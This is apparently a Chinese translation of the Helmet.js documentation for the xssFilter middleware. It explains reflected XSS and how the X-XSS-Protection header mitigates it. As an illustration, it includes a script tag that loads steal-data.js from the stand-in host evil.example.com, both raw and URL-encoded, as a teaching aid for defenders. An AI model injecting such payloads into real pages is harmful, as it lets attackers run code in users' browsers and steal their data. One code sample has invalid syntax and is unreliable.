


## XSS 过滤

`xssFilter`中间件通过设置 HTTP 响应头的`X-XSS-Protection`字段来阻止反射型 XSS 攻击。

### 攻击

跨站脚本，简称`XSS`，是攻击者对 web 页面进行攻击的一种方式。`XSS`攻击的目的是获取用户浏览器的 JavaScript 控制能力。一旦获取到了对 JavaScript 的控制能力，他们就能做很多恶意的事情：记录用户行为、冒充用户身份、窃取权限、Cookie 等等。

`XSS`涉及的面非常广，在此没法详细说明。重要的是，如果某人能够在你的网页上运行他的 JavaScript，他就能够攻击你的用户并且可以做很多恶意的事情。因此我们需要设法阻止`XSS`攻击。

其中一种`XSS`攻击叫做“反射型 XSS”。通常，它通过设置直接放入 HTML 的查询字符串来工作。将 JS 脚本放入一个查询字符串中，可以让攻击者给用户一个恶意的查询字符串来执行其 JS 脚本。

比如，假设你要运行一个叫做`Goober`的搜索引擎。每一次执行搜索时，它都会将你的搜索关键词显示在搜索结果的右上方。现在假设我们要搜索“javascript jokes”。

当你在执行搜索时，你的搜索关键词同时会出现在 URL 的查询字符串中。完整的 URL 看起来可能如下面这样：

```
https://goober.example.com/search?query=javascript+jokes
```

搜索结果可能如下图所示。注意你搜索的关键词所出现的位置：


假如我们能对如下关键字进行搜索：

```javascript
<script src="http://evil.example.com/steal-data.js"></script>
```

这时 URL 将会有如下的形式：

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

搜索结果可能会是如下这样：

显然，一个恶意的 JS 文件因为你访问上面 URL 而被执行。这可就有点不太妙了。

阅读更多：

- [XSS 指南](https://www.securesolutions.no/xss-explained/)

- [跨站脚本（XSS）](<https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>)

- [什么是反射型 XSS？](https://security.stackexchange.com/questions/65142/what-is-reflected-xss)

- [XSS 防护备忘录](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

### HTTP 头部

首先需要说明的是，HTTP 头部字段`X-XSS-Protection`并不能很好的防护你的网站免受 XSS 的攻击。它只是针对特定类型的 XSS 攻击。此头部字段只是一个快速的基本防护手段，但是它并不能完全让你免受 XSS 的攻击。

浏览器检测一些简单的反射型 XSS 攻击相对来说还是比较容易的。对于上面的例子，浏览器可以选择不去执行能够匹配查询字符串的`<script>`标签。一些浏览器默认会做这样的检测，但也有些浏览器不会做这种检测。为了让所有浏览器都做这种检测，你可以在 HTTP 响应头中添加`X-Xss-Protection:1;mode=block`。

它会告诉浏览器检测并阻止反射型 XSS。

此头部字段在一些老版本的 IE 浏览器中可能会引起一些更严重的安全性问题，这时最明智的做法就是不要使用此字段。

- [控制 XSS 过滤](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)

- [IE 的 XSS 过滤创建了 XSS 漏洞](https://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)

### 代码

`Helmet`的`xssFilter`中间件通过设置 HTTP 响应头的`X-XSS-Protection`字段告诉浏览器对反射型 XSS 攻击进行过滤处理。在大多数的浏览器上将其设置为`X-XSS-Protection:1;mode=bock`。在一些老版本的 IE 浏览器上需要设置`X-XSS-Protection:0`将其禁用。

你可以将此模块作为`Helmet`的一部分使用：

```javascript
const helmet = require('helmet');

// 设置"X-XSS-Protection:1'mode=block"
app.use(helmet.xssFilter());
```

你也可以将其作为单独的模块使用：

```javascript
const xssFilter = require('x-xss-protection');

// 设置"X-XSS-Protection:1'mode=block"
app.use(xssFilter());
```

要想在所有版本的 IE 浏览器上强制设置`X-XSS-Protection:1;mode=block`，使用如下方式：

```javascript
app.use(xssFilter(setOnOldIE: true))
// 这对于老版本的IE浏览器会有安全性问题
```

你还可以选择性配置一个 reportUri(此配置是针对谷歌浏览器的)。此配置项告诉浏览器在发现 XSS 攻击时将其报告的指定的 URL。

```javascript
app.use(xssFilter({ reportUri: '/report-xss-violation' }));
```

要从`X-XSS-Protection`字段中移除`mode=block`（不建议移除），可以将`mode`选项设置为`null`：

```javascript
app.use(xssFilter({ mode: null }));
```
